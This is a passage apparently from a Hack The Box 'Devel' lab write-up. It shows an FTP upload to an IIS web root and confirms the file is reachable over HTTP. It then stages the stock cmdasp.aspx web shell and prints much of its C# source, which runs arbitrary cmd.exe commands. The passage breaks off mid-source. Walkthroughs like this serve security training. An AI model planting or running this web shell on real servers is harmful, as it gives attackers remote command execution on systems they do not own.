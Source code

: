 We are able to upload a test.txt file to the FTP server.

```
ftp> put test.txt 
local: test.txt remote: test.txt
227 Entering Passive Mode (10,10,10,5,192,9).
125 Data connection already open; Transfer starting.
226 Transfer complete.
7 bytes sent in 0.00 secs (455.7292 kB/s)
ftp> ls -a
227 Entering Passive Mode (10,10,10,5,192,10).
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-06-21  10:06PM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

We see that the test.txt can be retrieved via the web, confirming we have full control of the content of the webserver.

![ImgPlaceholder](screenshots/ftp-http-access.png)

We prepare a cmdasp.aspx inside a upload dir.

```
user@kali:~/hackthebox/hackthebox/devel/upload$ cp /usr/share/webshells/aspx/cmdasp.aspx .
user@kali:~/hackthebox/hackthebox/devel/upload$ ls
cmdasp.aspx
```

No change in source code is neccesary:

```
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
```
